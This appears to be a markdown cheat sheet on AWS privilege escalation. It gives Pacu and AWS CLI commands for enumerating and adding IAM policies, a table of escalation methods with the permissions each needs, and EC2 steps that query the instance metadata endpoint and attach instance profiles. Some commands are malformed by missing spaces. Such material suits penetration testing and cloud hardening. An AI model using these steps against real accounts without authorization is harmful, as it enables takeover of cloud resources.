 # Privilege Escalation


Pacu tool 
```
run iam__bruteforce_permissions
```

## IAM Privilege Escalation

Lists all managed policies that are attached to the specified IAM user :

`aws iam list-attached-user-policies --user-name user-name`

Retrieves information about the specified managed policy : 

`aws iam get-policy --policy-arn policy-arn`

Lists information about the versions of the specified managed policy :

`aws iam list-policy-versions --policy-arn policy-arn`

Retrieves information about the specified version of the specified managed policy :

`aws iam get-policy-version --policy-arn policy-arn--version-id version-id`

Add an inline policy document that is embedded in the specified IAM user :

`aws iam put-user-policy --user-name Username--Policy-name PolicyName--policy-document file://Policy.json`

Lists the names of the inline policies embedded in the specified IAM user :

`aws iam list-user-policies --user-name user-name`


[AWS IAM Privilege Escalation – Methods and Mitigation](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

| **Privilege Escalation Methods **                          | **Required Permission **                                 |
|------------------------------------------------------------|----------------------------------------------------------|
| Attaching a policy to a user                               | iam:AttachUserPolicy                                     |
| Attaching a policy to a group                              | iam:AttachGroupPolicy                                    |
| Attaching a policy to a role                               | iam:AttachRolePolicy                                     |
| Creating a new user access key                             | iam:CreateAccessKey                                      |
| Creating a new login profile                               | iam:CreateLoginProfile                                   |
| Updating an existing login profile                         | iam:UpdateLoginProfile                                   |
| Creating an EC2 instance with an existing instance profile | iam:PassRole ec2:RunInstances                            |
| Creating/updating an inline policy for a user              | iam:PutUserPolicy                                        |
| Creating/updating an inline policy for a group             | iam:PutGroupPolicy                                       |
| Creating/updating an inline policy for a role              | iam:PutRolePolicy                                        |
| Adding a user to a group                                   | iam:AddUserToGroup                                       |
| Updating the AssumeRolePolicyDocumentof a role             | iam:UpdateAssumeRolePolicy sts:AssumeRole                |
| Passing a role to a new Lambda function, then invoking it  | iam:PassRole lambda:CreateFunction lambda:InvokeFunction |
| Updating the code of an existing Lambda function           | lambda:UpdateFunctionCode                                |



## EC2 Privilege Escalation

Get Information about user identity / role identity   :

```
aws sts get-caller-identity
```

Lists all managed policies that are attached to the specified IAM user :

```
aws iam list-attached-user-policies --user-name user-name
```

Retrieves information about the specified version of the specified managed policy :

```
aws iam get-policy-version --policy-arnpolicy-arn--version-id version-id
```

Get-Information about instance id  :

```
curl http://169.254.169.254/latest/meta-data/instance-id
```
Lists the instance profiles :

```
aws iam list-instance-profiles
```
Attach an instance profile with a role to a EC2 instance: : 

```
aws ec2 associate-iam-instance-profile --instance-id InstanceID --iam-instance-profile Name=ProfileName
```
